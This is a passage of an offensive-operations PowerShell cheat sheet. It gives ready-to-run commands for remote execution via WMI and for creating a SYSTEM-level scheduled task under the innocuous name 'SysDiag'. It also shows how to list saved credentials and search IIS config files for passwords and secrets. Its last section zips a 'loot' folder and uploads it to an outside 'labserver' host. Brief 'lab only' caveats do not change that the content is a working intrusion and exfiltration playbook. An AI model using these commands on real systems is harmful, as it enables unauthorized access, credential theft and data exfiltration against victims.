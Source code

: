 **WMI**

```powershell
Invoke-WmiMethod -Class Win32_Process -Name Create -ComputerName WS01 -ArgumentList "cmd /c whoami > C:\Windows\Temp\w.txt"
```

**Scheduled Task (opsec-friendly, survives transient)**

```powershell
$act = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c ipconfig /all > C:\Temp\net.txt"
$trg = New-ScheduledTaskTrigger -Once -At ((Get-Date).AddMinutes(1))
Register-ScheduledTask -TaskName "SysDiag" -Action $act -Trigger $trg -RunLevel Highest -User "SYSTEM"
Start-ScheduledTask -TaskName "SysDiag"
```

***

### VI. 🔐 Credentials & Tokens (Legit Paths Only)

* **Network credentials in memory**: Assume EDR detects dumps — avoid weaponized dumping in shared networks.
* **DPAPI user secrets (lab demo only)**:

```powershell
# list saved creds (current user context)
cmdkey /list
# Windows Credential Manager (read with authorized tools only)
rundll32.exe keymgr.dll,KRShowKeyMgr
```

* **Search config stores** (web apps, dev boxes):

```powershell
gci C:\inetpub\ -Recurse -Include web.config,appsettings.json -ErrorAction SilentlyContinue |
  % { Select-String -Path $_.FullName -Pattern "ConnectionString|Password|Key|Secret" -SimpleMatch }
```

***

### VII. 🌐 Data Exfil Helpers (Lab)

> In real environments, follow data handling policies. Use throttling and encryption; prefer secure transport.

```powershell
# compress & zip
$src="C:\Temp\loot"; $zip="C:\Temp\loot.zip"
Compress-Archive -Path $src -DestinationPath $zip -Force

# HTTPS upload (lab web server)
Invoke-WebRequest -Uri "https://labserver/upload" -Method Post -InFile $zip -UseBasicParsing
```

***
